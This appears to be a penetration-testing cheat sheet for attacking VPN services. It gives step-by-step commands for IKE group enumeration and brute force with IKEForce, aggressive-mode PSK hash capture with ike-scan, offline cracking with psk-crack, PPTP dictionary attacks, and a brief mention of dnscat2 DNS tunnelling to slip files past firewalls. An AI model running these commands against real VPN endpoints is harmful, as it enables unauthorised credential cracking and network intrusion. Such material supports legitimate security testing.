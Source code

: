 **IKEForce**
	Use IKEForce to enumerate or dictionary attack VPN servers.

	Install:
		pip install pyip
		git clone https://github.com/SpiderLabs/ikeforce.git

	Perform IKE VPN enumeration with IKEForce:	
		./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic

	Bruteforce IKE VPN using IKEForce:
		./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1

	ike-scan
		ike-scan TARGET-IP
		ike-scan -A TARGET-IP
		ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key

	IKE Aggressive Mode PSK Cracking
	    Identify VPN Servers
	    Enumerate with IKEForce to obtain the group ID
	    Use ike-scan to capture the PSK hash from the IKE endpoint
	    Use psk-crack to crack the hash

Step 1: Idenitfy IKE Servers
	./udp-protocol-scanner.pl -p ike SUBNET/24

Step 2: Enumerate group name with IKEForce
	./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic

Step 3: Use ike-scan to capture the PSK hash
	ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP

Step 4: Use psk-crack to crack the PSK hash
	psk-crack hash-file.txt

Some more advanced psk-crack options below:
	pskcrack
		psk-crack -b 5 TARGET-IPkey
		psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
		psk-crack -d /path/to/dictionary-file TARGET-IP-key

*PPTP Hacking*

	Identifying PPTP, it listens on TCP: 1723
	NMAP PPTP Fingerprint:
		nmap –Pn -sV -p 1723 TARGET(S)

	PPTP Dictionary Attack
		thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst

*DNS Tunneling*

	Tunneling data over DNS to bypass firewalls.
		dnscat2 supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

